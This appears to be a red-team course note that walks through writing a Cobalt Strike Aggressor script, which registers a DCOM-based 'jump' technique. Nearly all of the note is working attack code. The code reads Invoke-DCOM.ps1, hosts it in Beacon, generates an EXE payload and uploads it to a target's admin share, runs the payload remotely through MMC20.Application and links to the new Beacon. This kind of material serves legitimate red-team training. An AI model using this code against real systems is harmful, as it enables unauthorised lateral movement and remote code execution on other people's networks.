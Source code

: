 
Aggressor can be used to register new techniques under `jump` and `remote-exec` using [beacon_remote_exploit_register](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics_aggressor-scripts/as-resources_functions.htm#beacon_remote_exploit_register) and [beacon_remote_exec_method_register](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics_aggressor-scripts/as-resources_functions.htm#beacon_remote_exec_method_register) respectively.

In this example, we'll integrate `Invoke-DCOM.ps1` into `jump`.  

1) First, create a new text file in Visual Studio and save is somewhere as `dcom.cna`.  Then add the following skeleton.

```
sub invoke_dcom
{
}

beacon_remote_exploit_register("dcom", "x64", "Use DCOM to run a Beacon payload", &invoke_dcom);
```

  

This will register "dcom" as a new option inside the jump command and specifies `invoke_dcom` as the associated callback function.  The first thing to add inside this callback are some local variable declarations.
```
sub invoke_dcom
{
    local('$handle $script $oneliner $payload');
}

beacon_remote_exploit_register("dcom", "x64", "Use DCOM to run a Beacon payload", &invoke_dcom);
```

`local` defines variables that are local to the current function, so they will disappear once executed.  Sleep can have `global`, `closure-specific` and `local` scopes.  More information can be found in **5.2 Scalar Scope** of the Sleep manual.

The next step is to acknowledge receipt of the task using [btask](https://download.cobaltstrike.com/aggressor-script/functions.html#btask).  This takes the ID of the Beacon, the text to post and an ATT&CK tactic ID.  This will print a message to the Beacon console and add it to the data model used in the activity and session reports that you can generate from Cobalt Strike.
```
sub invoke_dcom
{
    local('$handle $script $oneliner $payload');

    # acknowledge this command
    btask($1, "Tasked Beacon to run " . listener_describe($3) . " on $2 via DCOM", "T1021");
}
```
  

You'll notice `$1`, `$2` and `$3` variables here which are automatically passed in by the client.  Where:
```
- $1 is the Beacon ID.
- $2 is the target to jump to.
- $3 is the selected listener.
```
  

Furthermore, [listener_describe](https://download.cobaltstrike.com/aggressor-script/functions.html#listener_describe) expands a listener name into a more detailed description.  For example, instead of "smb" it will say "windows/beacon_bind_pipe (\\.\pipe\<pipename>)".

Next, we want to read in the Invoke-DCOM script from our machine.  This can be done [openf](http://sleep.dashnine.org/manual/openf.html), [getFileProper](http://sleep.dashnine.org/manual/getFileProper.html) and [script_resource](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics_aggressor-scripts/as-resources_functions.htm#script_resource).  Notice how we're assigning values to the variables we declared at the start.
```
$handle = openf(getFileProper("C:\\Tools", "Invoke-DCOM.ps1"));
$script = readb($handle, -1);
closef($handle);
```
  

The `$script` variable now holds the raw content of Invoke-DCOM.ps1.  For Beacon to utilise it, we can use [beacon_host_script](https://download.cobaltstrike.com/aggressor-script/functions.html#beacon_host_script) - this will host the script inside Beacon and returns a short snippet for running it.

```
$oneliner = beacon_host_script($1, $script);
```
  If you want to see the content of these variables, you can use `println($oneliner);` and they'll appear in the Script Console (_Cobalt Strike > Script Console_).

  The next step is to generate and upload a payload to the target using [artifact_payload](https://download.cobaltstrike.com/aggressor-script/functions.html#artifact_payload)and [bupload_raw](https://download.cobaltstrike.com/aggressor-script/functions.html#bupload_raw).  This will generate an EXE payload and upload it to the target in the `C:\Windows\Temp` directory.

`$payload = artifact_payload($3, "exe", "x64");`

`bupload_raw($1, "\\\\ $+ $2 $+ \\C$\\Windows\\Temp\\beacon.exe", $payload);`

  `$+` concatenates an interpolated string and requires additional whitespaces on each end.

Then, [bpowerpick](https://download.cobaltstrike.com/aggressor-script/functions.html#bpowerpick) can execute the Invoke-DCOM oneliner.  We pass it the target computer name and the path to the uploaded payload.  Also, because this could be a P2P payload - we want to automatically try and link to it, which can be done with [beacon_link](https://download.cobaltstrike.com/aggressor-script/functions.html#beacon_link).

`bpowerpick!($1, "Invoke-DCOM -ComputerName $+ $2 $+ -Method MMC20.Application -Command C:\\Windows\\Temp\\beacon.exe", $oneliner);
`
Finally, automatic link:
`beacon_link($1, $2, $3);
`



### Properties
---
📆 created   {{06-03-2024}} 15:21
🏷️ tags: #redteam #crto 

---

